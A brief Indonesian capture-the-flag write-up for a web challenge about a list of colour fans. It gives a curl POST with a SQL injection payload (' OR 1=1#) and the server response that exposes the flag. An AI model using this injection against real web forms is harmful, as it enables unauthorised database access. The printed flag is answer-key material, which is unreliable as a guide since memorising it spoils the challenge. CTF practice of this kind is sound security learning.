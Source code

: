 Notice: Challenge ini sudah di fix. Enjoy ;D. Mimin punya list orang-orang penyuka warna. Nah dicoba deh nih

Link: https://web.ctf.rasyidmf.com/chal11/

Payload:
```
curl -X POST -d "nama=' OR 1=1#" https://web.ctf.rasyidmf.com/chal11/ | grep CTFR
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   730    0   716  100    14   1763     34 --:--:-- --:--:-- --:--:--  1798
Penyuka Warna : Hijau<br><br>Nama : CTFR{l1ttl3_sql_1nj3ct10n}<br>
```

Flag

```
CTFR{l1ttl3_sql_1nj3ct10n}
```